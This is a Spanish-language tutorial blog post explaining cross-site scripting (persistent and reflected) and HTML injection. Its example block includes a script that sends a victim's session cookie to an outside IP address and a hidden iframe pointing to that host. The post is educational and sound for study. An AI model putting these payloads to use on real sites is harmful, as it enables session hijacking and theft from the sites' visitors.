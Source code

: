 ```yaml
---
layout: post
title:  "Aprendiendo sobre ataques XSS y HTML Injection"
description: Aprendiendo sobre las Vulnerabilidades " XSS// HTML INJECCTION "
tags: Web Attacks xss html injecction
---
```

Seguimos aprendiendo las principales Vulnerabilidades a nivel Web mas Basicas
  
# ~ XSS ~ CROSS SITE SCRIPTING

1.- El XSS del que hablaremos hoy, es una vulnerabilidad en la que el hacker ataca a otros usuarios que se conectan a dicha página web y los ataca en busca de varias cosas: 
secuestrarles la sesión, robarles la contraseña o cualquier otra información que considere de interés.

- Cómo funciona el Cross Site Scripting:
``` 
Existen dos tipos: 
    * directa o persistente 
    * indirecta o reflejada
```
En ambos casos, el atacante malicioso inyecta código sobre algún campo de entrada de datos que ofrezca la página web,
bien sea este la típica cajita con el icono de la lupa para búsqueda de palabras clave, un recuadro de espacio de participación en un foro, o un formulario de recogida de datos.

```
Ejemplo:
    * <script>alert(‘XSS’)</script>
    * <script>new Image().src="http://10.11.0.4/cool.jpg?output="+document.cookie;</script>
    * <iframe src=http://10.11.0.4/report height=”0” width=”0”></iframe>
```

# Cross Site Scripting persistente
Si el código que hemos insertado se queda almacenado en el servidor, por ejemplo formando parte de una contribución en un foro,
el ataque se dice que es persistente. Cualquier usuario que entre a leer dicha contribución leerá el texto inocente pero probablemente no así el código inyectado,
que sin embargo sí será interpretado por el navegador del visitante, ejecutando las instrucciones que el hacker haya definido.

El atacante no puede predecir el usuario que va a caer en la trampa.

# Cross Site Scripting reflejado
Pero si el código que insertamos no se queda almacenado en la web, sino que va embebido dentro de un enlace que se hace llegar de algún modo a la víctima para que pinche en él,
se dice que este tipo de ataque es reflejado. Se llama así porque, si finalmente la víctima pincha en el enlace, el navegador le llevará a la página en cuestión,
que normalmente es un sitio legal donde el usuario tiene cuenta abierta, y a continuación ejecutará el código embebido, el cual intentará robarle la “cookie” de la sesión,
o los datos que introduzca en el formulario, o incluso podrá desencadenar acciones más sofisticadas en su PC.

Pero la característica diferencial con el anterior ataque es que en este caso en el servidor web no queda almacenado nada.

# HTML Injection
La inyección de HTML es un tipo de vulnerabilidad de inyección que se produce cuando un usuario puede controlar un punto de entrada y puede inyectar código HTML arbitrario en una página web vulnerable.
Esta vulnerabilidad puede tener muchas consecuencias, como la divulgación de cookies de sesión de un usuario que podrían usarse para hacerse pasar por la víctima o, de manera más general,
puede permitir que el atacante modifique el contenido de la página visto por las víctimas.

Existe una amplia gama de métodos y atributos que se pueden utilizar para representar contenido HTML.
Si estos métodos se proporcionan con una entrada que no es de confianza, existe un alto riesgo de vulnerabilidad de inyección de HTML.
Por ejemplo, se puede inyectar código HTML malicioso a través del innerHTMLmétodo JavaScript, que generalmente se usa para representar código HTML insertado por el usuario.
Si las cadenas no se desinfectan correctamente, el método puede habilitar la inyección de HTML.
Una función de JavaScript que se puede utilizar para este propósito es document.write().


